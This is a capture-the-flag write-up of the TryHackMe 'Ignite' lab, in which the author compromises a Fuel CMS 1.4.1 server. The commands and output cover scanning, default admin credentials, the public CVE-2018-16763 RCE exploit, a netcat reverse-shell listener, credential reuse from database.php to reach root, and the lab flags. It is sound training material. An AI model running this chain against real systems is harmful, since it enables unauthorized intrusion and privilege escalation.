

## Summary

**Ignite** is the ninth machine of the _Road to eJPTv2_ series. A small attack surface machine — only port 80 — that demonstrates how an outdated CMS with default credentials can fully compromise a system without complex techniques.

The flow is straightforward: web reconnaissance, public RCE exploit, and privilege escalation using database credentials found in a configuration file.

| Attribute      | Value                                                 |
| -------------- | ----------------------------------------------------- |
| **Platform**   | TryHackMe                                             |
| **Difficulty** | Easy                                                  |
| **OS**         | Linux (Ubuntu)                                        |
| **Room**       | [Ignite](https://tryhackme.com/room/ignite)           |
| **Skills**     | Web Enum, RCE, Config File Analysis, Credential Reuse |

### Tools Used

- `nmap` — port scanning and version detection
- `gobuster` — web directory fuzzing
- `searchsploit` — local exploit search
- `python3` — RCE exploit execution
- `netcat` — reverse shell listener

### Solution Overview

1. **Recon:** nmap finds only port 80 with Apache. Script scan reveals Fuel CMS and a `robots.txt` entry.
2. **Web enum:** `robots.txt` exposes `/fuel/` — the CMS admin panel.
3. **Initial access:** Default credentials `admin:admin` grant access to the panel.
4. **Exploitation:** `searchsploit` reveals an unauthenticated RCE in Fuel CMS 1.4.1 (CVE-2018-16763). The exploit gives us direct command execution.
5. **User flag:** Found at `/home/www-data/flag.txt` directly from the exploit.
6. **Reverse shell:** We launch an interactive shell for comfort and stabilize it.
7. **PrivEsc:** `database.php` contains root credentials: `root:mememe`. A simple `su root` completes the escalation.

---

## Reconnaissance

### Ping

We verify connectivity and identify the OS by TTL:

```bash
ping -c 1 10.67.145.103
```

```
64 bytes from 10.67.145.103: icmp_seq=1 ttl=62 time=76.7 ms
```

TTL 62 → Linux (original value is 64, decremented through network hops).

### Nmap — Port Scan

```bash
nmap 10.67.145.103 -n -Pn -sS -p- --open --min-rate=5000 -oG allTCPports
```

```
PORT   STATE SERVICE
80/tcp open  http
```

Only one open port — the entire attack surface is web.

### Nmap — Versions and Scripts

```bash
nmap 10.67.145.103 -n -Pn -sS -p80 -sCV --min-rate=5000 -oN ignitescan.txt
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-title: Welcome to FUEL CMS
```

Two immediate findings: the title reveals **Fuel CMS** and `robots.txt` explicitly mentions `/fuel/` as a disallowed directory — a direct pointer to the admin panel.

### Web Enumeration

The homepage shows **Fuel CMS version 1.4** with its default welcome screen. This confirms the CMS and exact version — key information for finding exploits.



### Web Fuzzing — gobuster

```bash
gobuster dir -u http://10.67.145.103 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,css,xml,bak -t 50
```

Fuzzing confirms `/fuel/` among the found directories, consistent with what `robots.txt` already revealed.

### robots.txt → Login Panel

We navigate directly to `http://10.67.145.103/fuel/` and find the Fuel CMS admin panel.


Looking up Fuel CMS default credentials online:

> **Default credentials:** `admin:admin`

Access to the admin panel confirmed.

### Searchsploit — RCE in Fuel CMS 1.4

```bash
searchsploit fuel cms
```

```
Fuel CMS 1.4.1 - Remote Code Execution (1)   | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)   | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)   | php/webapps/50477.py
```

Three RCE exploits for the exact version we have. We use the third one (`50477.py`, CVE-2018-16763):

```bash
searchsploit -m 50477
```

---

## Exploitation

### RCE — Fuel CMS 1.4.1 (CVE-2018-16763)

The exploit abuses an unauthenticated remote code execution vulnerability in the `pages/select/` parameter of Fuel CMS. We launch it directly against the target:

```bash
python3 50477.py -u http://10.67.145.103
```

```
[+]Connecting...
Enter Command $whoami
system www-data

Enter Command $ls
system README.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt
```

We have command execution as `www-data`.

---

## Post-Exploitation

### User Flag

We explore the filesystem looking for the user flag:

```bash
Enter Command $ls -l /home
system total 4
drwx--x--x 2 www-data www-data 4096 Jul 26  2019 www-data

Enter Command $cat /home/www-data/flag.txt
system 6470e394cbf6dab6a91682cc8585059b
```

> **User flag:** `6470e394cbf6dab6a91682cc8585059b`

### Reverse Shell

We launch a reverse shell from the exploit to work with a full terminal. We set up a netcat listener:

```bash
nc -lvnp 4444
```

We send the reverse shell payload from the exploit and stabilize the connection:

```bash
www-data@ubuntu:/var/www/html$ script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
www-data@ubuntu:/var/www/html$ export TERM=xterm
www-data@ubuntu:/var/www/html$ export SHELL=bash
www-data@ubuntu:/var/www/html$ stty rows 40 cols 184
```

### Credentials in database.php

Exploring the CMS structure we find the database configuration file:

```bash
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php
```

```php
$db['default'] = array(
    'hostname' => 'localhost',
    'username' => 'root',
    'password' => 'mememe',
    'database' => 'fuel_schema',
    ...
);
```

Database credentials found: `root:mememe`

---

## Privilege Escalation

### su root

With the password obtained from the config file, we try to escalate directly to root:

```bash
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
Password: mememe
root@ubuntu:/var/www/html/fuel/application/config# whoami
root
```

The database password was the same as the system `root` user — classic credential reuse.

### Root Flag

```bash
root@ubuntu:~# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```

> **Root flag:** `b9bbcb33e11b80be759c4e844862482d`

---

## Lessons Learned

- **A single port doesn't mean a small surface** — The entire compromise chain happened through port 80. Depth of web enumeration matters as much as the breadth of the port scan.
- **`robots.txt` can be an attack guide** — Admins sometimes list sensitive paths in `robots.txt` thinking it "hides" them from search engines. It actually makes them explicit for any attacker.
- **Outdated CMS are easy targets** — Fuel CMS 1.4.1 has a publicly documented unauthenticated RCE (CVE-2018-16763). Keeping software updated is a fundamental defense.
- **Default credentials still work** — `admin:admin` on an internet-exposed admin panel is a critical vulnerability that still appears in real environments.
- **Config files are treasures in post-exploitation** — `database.php`, `.env`, `config.php` — always look for configuration files after gaining access. Database credentials are frequently reused as system passwords.

### For the eJPT

| Concept                          | eJPT Relevance                                     |
| -------------------------------- | -------------------------------------------------- |
| CMS identification               | Standard web recon in the exam                     |
| Public exploit with searchsploit | Core technique for known vulnerabilities           |
| Config file analysis             | Post-exploitation and lateral movement             |
| Credential reuse                 | Very common escalation vector in real environments |

**Approximate completion time:** 20-30 minutes.

---

## References

- [Ignite — TryHackMe](https://tryhackme.com/room/ignite)
- [Fuel CMS 1.4.1 RCE — Exploit-DB 50477](https://www.exploit-db.com/exploits/50477)
- [CVE-2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)
- [GTFOBins](https://gtfobins.github.io/)
